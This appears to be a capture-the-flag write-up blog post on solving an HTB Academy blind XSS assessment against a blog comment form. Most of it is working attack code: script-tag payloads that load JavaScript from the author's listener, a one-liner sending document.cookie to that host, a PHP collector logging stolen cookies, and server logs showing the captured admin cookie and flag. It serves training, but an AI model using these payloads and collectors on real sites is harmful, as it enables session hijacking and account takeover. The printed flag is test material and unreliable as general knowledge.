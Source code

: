 ```yaml
---
layout: post
title: 'Blind Xss & Session Hijacking'
date: 2025-10-13
categories: [docs]
tag: [XSS,Skills Assessment htb,HTB XSS,Cross-Site Scripting HTB academy,Skills Assessment XSS]
---
```

![blind-xss](/assets/blind-xss.png "blind-xss")
## 1. Introduction
In this HTB Academy assessment, our goal is to find and exploit an XSS vulnerability on a security blog.
We need to do three things:
- Find a vulnerable input field (blind Xss).
- Inject a script and wait for admin '-'.
- Steal the victim's cookie to get the flag.
Let's break down how to solve it step-by-step.

## 2. Reconnaissance - Finding the Input Field

I began my investigation on the blog's comment section, as it is a common vector for user-input vulnerabilities.
My first step was to craft a simple test comment to analyze the server's response. The immediate reply revealed a crucial piece of information:
"Note: comments must be approved by an admin, so submitting them may take a few seconds."
This message was the key. The mention of an admin who reviews comments indicated that my input would be rendered in a privileged context—a classic setup for a Blind XSS attack.
![xss-admin-comment](/assets/xss-admin-comment.png "xss-admin-comment")

## 3. Crafting the Attack - Stealing the Cookie

To identify which specific input field was vulnerable, I set up a simple PHP server to act as a callback listener. This would log any incoming requests, confirming where my script was executed.
I started the server with the following command:
```bash
└──╼$ sudo php -S 0.0.0.0:8080
[Mon Oct 13 11:26:56 2025] PHP 8.2.29 Development Server (http://0.0.0.0:8080) started
```
Next, I crafted unique payloads for different fields, each pointing to a distinct path on my server. This technique allowed me to pinpoint the exact vulnerable field based on which path was requested.
```html
"><script src=http://10.10.15.109:8080/name></script>
"><script src=http://10.10.15.109:8080/comment></script>
"><script src=http://10.10.15.109:8080/web></script>
```
Note : When I tried a simple script payload in the email field, the application returned an error: "email is invalid". This indicated that the email field had client-side or server-side validation, making it likely not vulnerable and shifting my focus to the other inputs.

![xss-website](/assets/xss-website.png "xss-website")

### let's start stealing admin cookie : 
With the vulnerable field identified, the next step was to craft a payload to steal the administrator's session cookie.

I created a file named script.js with the following code. This script forces the victim's browser to send its cookies to a listener I control. 
```js
document.location='http://10.10.15.109:8080/index.php?c=' + document.cookie;
```

I then injected this script into the vulnerable website field using this payload:
```html
"><script src=http://10.10.15.109:8080/script.js></script>
```

To capture the incoming cookie, I created an index.php file on my server. This script logs the stolen cookie along with the victim's IP address into a cookies.txt file.
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    $file = fopen("cookies.txt", "a+");
    foreach ($list as $value) {
        $cookie = urldecode($value);
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
    }
    fclose($file);
}
?>
```

After the admin reviewed the comment, my server received a request containing their session cookie, which included the flag to complete the assessment.
```bash
[Mon Oct 13 11:26:56 2025] PHP 8.2.29 Development Server (http://0.0.0.0:8080) started
[Mon Oct 13 11:27:10 2025] 10.10.15.109:56760 Accepted
[Mon Oct 13 11:27:10 2025] 10.10.15.109:56760 [200]: GET /index.php
[Mon Oct 13 11:27:10 2025] 10.10.15.109:56760 Closing
[Mon Oct 13 11:27:10 2025] 10.10.15.109:56770 Accepted
[Mon Oct 13 11:27:10 2025] 10.10.15.109:56770 [404]: GET /favicon.ico - No such file or directory
[Mon Oct 13 11:27:10 2025] 10.10.15.109:56770 Closing
[Mon Oct 13 11:27:41 2025] 10.129.102.69:34028 Accepted
[Mon Oct 13 11:27:41 2025] 10.129.102.69:34028 [200]: GET /script.js
[Mon Oct 13 11:27:41 2025] 10.129.102.69:34028 Closing
[Mon Oct 13 11:27:42 2025] 10.129.102.69:34030 Accepted
[Mon Oct 13 11:27:42 2025] 10.129.102.69:34030 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1760372862;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
[Mon Oct 13 11:27:42 2025] 10.129.102.69:34030 Closing
```
flag -> HTB{cr055_5173_5cr1p71n6_n1nj4}

## 4. Conclusion
This Blind XSS attack was successful because the application trusted user input in the comment field. By leaving a malicious script for the admin to review, we stole their cookie and captured the flag.
The lesson is clear (-_-): never trust user input. Proper input validation and output encoding are essential to prevent these attacks.